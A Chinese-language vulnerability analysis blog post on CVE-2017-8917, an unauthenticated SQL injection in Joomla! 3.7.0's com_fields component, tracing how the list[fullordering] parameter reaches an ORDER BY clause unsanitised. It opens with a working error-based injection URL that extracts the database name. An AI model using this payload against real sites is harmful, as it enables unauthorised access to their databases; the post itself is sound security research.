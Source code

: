 ```yaml
---
title: '[CVE-2017-8917]Joomla! 3.7.0 SQL Injection分析'
date: 2017-05-19 09:39:18
tags: [代码审计,SQL注入,漏洞分析]
categories: Web安全
---
```

Joomla!3.7.0 Core SQL注入漏洞.

本文首发于：[[CVE-2017-8917]Joomla! 3.7.0 SQL Injection分析](https://chybeta.github.io/2017/05/19/CVE-2017-8917-Joomla-3-7-0-SQL-Injection%E5%88%86%E6%9E%90/)
<!-- more -->
# POC
这次干脆先放出poc吧。
```
http://localhost:2500/Joomla370/index.php?
option=com_fields
&view=fields
&layout=modal
&list[fullordering]=updatexml(1,concat(0x3e,database()),0)
```
这次根据参数的传入流程来进行分析。

# 漏洞
## 危害组件
3.7.0版本中出现了`com_field`组件,无需授权即可访问。查看`...\components\com_fields\controller.php`，在第27行左右，其相关代码如下：
```php
public function __construct($config = array())
	{
		$this->input = JFactory::getApplication()->input;

		// Frontpage Editor Fields Button proxying:
		if ($this->input->get('view') === 'fields' && $this->input->get('layout') === 'modal')
		{
			// Load the backend language file.
			$lang = JFactory::getLanguage();
			$lang->load('com_fields', JPATH_ADMINISTRATOR);

			$config['base_path'] = JPATH_COMPONENT_ADMINISTRATOR;
		}

		parent::__construct($config);
	}
```
可以看到它先判断通过`view`是否等于`fields`,`layout`是否等于`modal`,而这两个参数都是我们可控的。若满足则将会加载`JPATH_ADMINISTRATOR`中的`com_fields`组件，并且将`base_path`设置为 `JPATH_COMPONENT_ADMINISTRATOR`，之后调用父类的构造方法。

## 传入sql语句
在调用父类构造方法后，一路运行到`...\Joomla370\libraries\legacy\controller\legacy.php`中，约莫707行，这时会通过`$this->$doTask`调用`display()`函数。

![](https://github.com/CHYbeta/chybeta.github.io/raw/master/images/pic/20170519/calldisplay.jpg)

跟进`display()`函数，它位于 `...\Joomla370\libraries\legacy\controller\legacy.php`，接着运行至legacy.php的约莫671行左右，调用了视图（view）的`display()`函数。我们跟进一下，跳转进入`...\Joomla370\administrator\components\com_fields\views\fields\view.html.php`，

![](https://github.com/CHYbeta/chybeta.github.io/raw/master/images/pic/20170519/viewdisplay2.jpg?raw=true)

此时运行到，下面这条语句，给`get()`传入的参数为`State`

```php
$this->state         = $this->get('State');
```

我们跟进这个`get()`函数，一直运行到422行，

![](https://github.com/CHYbeta/chybeta.github.io/raw/master/images/pic/20170519/getState.jpg?raw=true)

之后将会调用 `getState()`，跟进，进入`...\Joomla370\libraries\legacy\model\legacy.php`

![](https://github.com/CHYbeta/chybeta.github.io/raw/master/images/pic/20170519/callpopulateState.jpg)

之后会调用filedsModel类中的`populateState()`，跟进后会发现调用其父类的`populateState()`函数，其定义在 `...\Joomla370\libraries\legacy\model\list.php`中，约莫在第495行，相关代码如下：
```php
..省略..

if ($list = $app->getUserStateFromRequest($this->context . '.list', 'list', array(), 'array'))

..省略..
```
这里我们先跟进一下`getUserStateFromRequest()`，它的定义在`...\Joomla370\libraries\cms\application\cms.php`中，在该函数结束后，它获取了我们通过get方法传入的参数，也就是说，我们成功的控制了`fullordering`的值。

![](https://github.com/CHYbeta/chybeta.github.io/raw/master/images/pic/20170519/fullordering.jpg)

在该函数运行完后，流程将会回到前面的那个定义在`...\Joomla370\libraries\cms\application\cms.php`中的`populateState()`函数。此时运行的代码如下：
```php
	foreach ($list as $name => $value)
	{
		// Exclude if blacklisted
		if (!in_array($name, $this->listBlacklist))
		{
			// Extra validations
			switch ($name){...}
			$this->setState('list.' . $name, $value);
		}
	}
```
如果数组的key不在黑名单（blacklisted）中，将会为`$list`变量根据相应的`State`进行注册，在这部分函数运行到结束部分，可以看见成功的控制了`list`数组的`fullordering`的值。

![](https://github.com/CHYbeta/chybeta.github.io/raw/master/images/pic/20170519/thissetstate.jpg?raw=true)

查看变量，如下：

![](https://github.com/CHYbeta/chybeta.github.io/raw/master/images/pic/20170519/arraylist.jpg?raw=true)

## 注入过程
接下来继续运行，一直运行回到`Joomla370\administrator\components\com_fields\views\fields\view.html.php`中的`display()`函数中。

![](https://github.com/CHYbeta/chybeta.github.io/raw/master/images/pic/20170519/getitem.jpg?raw=true)

跟进这一行 `$this->get('Items');`，进入`...\Joomla370\libraries\legacy\view\legacy.php`，约莫在422行,这里的行为跟前面分析类似，此后将会调用`getitem()`：

![](https://github.com/CHYbeta/chybeta.github.io/raw/master/images/pic/20170519/callgetitem.jpg?raw=true)

继续跟进，进入`...\Joomla370\libraries\legacy\model\list.php`，约莫在186行：
```php
try
	{
		// Load the list items and add the items to the internal cache.
		$this->cache[$store] = $this->_getList($this->_getListQuery(), $this->getStart(), $this->getState('list.limit'));
	}
```
通过`_getList`调用了`_getListQuery`,继续跟进，进入`...\Joomla370\libraries\legacy\model\list.php`，约莫在 132行，
```
if ($lastStoreId != $currentStoreId || empty($this->query))
{
	$lastStoreId = $currentStoreId;
	$this->query = $this->getListQuery();
}
```
调用了 `getListQuery()`，继续跟进，进入 `...\Joomla370\administrator\components\com_fields\models\fields.php`,一直运行到约莫在 305 行，调用`getState`方法，传入`list.fullordering`参数。相关代码如下：

![](https://github.com/CHYbeta/chybeta.github.io/raw/master/images/pic/20170519/listordering2.jpg?raw=true)

查看变量表：

![](https://github.com/CHYbeta/chybeta.github.io/raw/master/images/pic/20170519/listfullordering3.jpg?raw=true)

之后在第314行，将`$listOrdering`带入查询，相关代码如下：
```php
$query->order($db->escape($listOrdering) . ' ' . $db->escape($orderDirn));
```

在进行`$query->order`之前，会先进行一次过滤，跟进`$db->escape`，进入`...\Joomla370\libraries\joomla\database\driver\mysqli.php`，约莫242行，相关代码如下：
```php
public function escape($text, $extra = false)
	{
		$this->connect();

		$result = mysqli_real_escape_string($this->getConnection(), $text);

		if ($extra)
		{
			$result = addcslashes($result, '%_');
		}

		return $result;
	}
```
对于传入的`$text`通过`mysqli_real_escape_string()`进行过滤，只转义了一些字符。因此可以通过构造进行成功的注入。

# 成功注入

![](https://github.com/CHYbeta/chybeta.github.io/raw/master/images/pic/20170519/poc.jpg?raw=true)
